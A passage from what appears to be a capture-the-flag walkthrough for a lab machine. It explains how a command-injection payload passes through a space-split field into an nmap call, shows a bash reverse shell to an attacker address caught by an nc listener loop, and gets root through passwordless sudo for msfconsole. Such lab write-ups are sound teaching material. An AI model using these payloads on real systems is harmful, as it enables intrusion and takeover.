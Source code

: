 

The first `ping` will fail because `10.10.14.15.nmap` is not a valid ip.
But the second will work, but the output will be all piped to
`/dev/null`. A rev shell will get more messed up:



    oxdf@parrot$ echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'" | cut -d' ' -f3-
    x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'



Becomes:



    nmap --top-ports 10 -oN recon/x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'.nmap x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' 2>&1 >/dev/null



The first `bash` call will connect back, but then fail because of the
`.nmap`. The second would actually work, if you are quick enough to have
the `nc` listener receive the first connection, start listening again,
and then get the second. Something like
`for i in {1..2}; do nc -lvnp 443; done` will work.

## Shell as root

### Enumeration

The first thing I typically check is `sudo`, and it pays off again, as
pwn can run `msfconsole` with `sudo` as root without a password:



    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole



### Shell

On running that, I've got a Metasploit terminal as root:



    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
    ...[snip]...
    msf6 >



One way to get a shell from here is to drop to the integrated Ruby
shell, `irb`:
